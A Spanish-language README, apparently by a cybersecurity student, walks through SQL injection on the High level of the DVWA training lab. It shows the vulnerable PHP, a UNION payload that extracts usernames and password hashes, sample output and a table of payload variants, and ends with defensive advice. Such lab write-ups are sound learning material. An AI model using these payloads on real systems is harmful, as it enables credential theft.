 # 🛡️ DVWA - SQL Injection (High Level)

En este repositorio se explica cómo explotar una vulnerabilidad **SQL Injection** en el nivel **High** de la aplicación web de pruebas **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Extraer los **nombres de usuario y contraseñas** almacenados en la base de datos, utilizando una **inyección SQL** que se realiza a través de una **variable de sesión (`$_SESSION['id']`)** y no directamente en la URL.

---

## 🕵️ Análisis técnico

### 📂 Recursos: `high.php`

```php
if (isset($_SESSION['id'])) {
    $id = $_SESSION['id'];

    $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query);

    while ($row = mysqli_fetch_assoc($result)) {
        echo "<pre>ID: {$id}<br />First name: {$row['first_name']}<br />Surname: {$row['last_name']}</pre>";
    }
}
```

🔎 **Puntos clave:**

- La consulta SQL es vulnerable porque el valor de `$_SESSION['id']` **no está escapado ni protegido**.
- La inyección SQL es posible si conseguimos modificar el valor de esa variable de sesión.
- El payload que funciona en el nivel **Low** también funciona aquí, como se explica en [Aftab Sama's writeup](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high).

---

## 🔧 Paso a paso para explotar la vulnerabilidad

### 1. Acceder a la interfaz para cambiar el ID

Navega a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/session-input.php
```

![Link_Cambiar_ID](assets/SQL_Clickhere.png) 

Esta página contiene un campo de texto que permite **modificar la variable de sesión `$_SESSION['id']`**.

![Cuadro_Cambiar_ID](assets/SQL_ChangeID.png) 

---

### 2. Inyectar el payload SQL

En el campo de texto, introduce el siguiente valor malicioso:

```
1' UNION SELECT user, password FROM users#
```

📌 Este payload, heredado del nivel bajo, funciona también en el nivel High. Aprovecha que el valor se inyecta directamente en la consulta SQL sin escapado adicional.

Y pulsa el botón **Submit**.

![Usuarios y Contraseñas](assets/SQL_Resultado.png) 

---

### 3. Consultar los resultados

Después de enviar el formulario, serás redirigido automáticamente a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/high.php
```

Ahí verás los resultados de la inyección SQL. Por ejemplo:

```
ID: 1' UNION SELECT user, password FROM users#
First name: admin
Surname: admin

First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

...
```

Estos valores corresponden a los usuarios y contraseñas almacenadas en la tabla `users` de DVWA.

---

## 🦪 Payloads útiles

| Objetivo                               | Payload                                                       |
| -------------------------------------- | ------------------------------------------------------------- |
| Extraer usuario y contraseña           | `1' UNION SELECT user, password FROM users#`                  |
| Ver solo un usuario (primer resultado) | `1' UNION SELECT user, password FROM users LIMIT 1#`          |
| Ver el segundo usuario                 | `1' UNION SELECT user, password FROM users LIMIT 1 OFFSET 1#` |
| Insertar valores personalizados        | `1' UNION SELECT 'root','toor'#`                              |

---

## ⚠️ Recomendaciones de seguridad

Este ejercicio está diseñado para realizarse en un entorno de pruebas controlado (DVWA). En un entorno real:

✅ Usa **consultas preparadas (prepared statements)**  
✅ Aplica **validación de entradas**  
✅ Escapa correctamente los datos enviados por el usuario  
✅ Limita los permisos de las cuentas de base de datos  
✅ Aplica un firewall de aplicaciones web (WAF)  

---

## 📚 Recursos

- 🔗 [DVWA en GitHub](https://github.com/digininja/DVWA)
- 📖 [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- ▶️ [Vídeo tutorial utilizado](https://youtu.be/5bj1pFmyyBA)
- 📘 [Writeup de Aftab Sama sobre SQLi en DVWA](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high)

---

## 👨‍💼 Autor

**Carlos Peris Navarro**  
Estudiante de Ciberseguridad



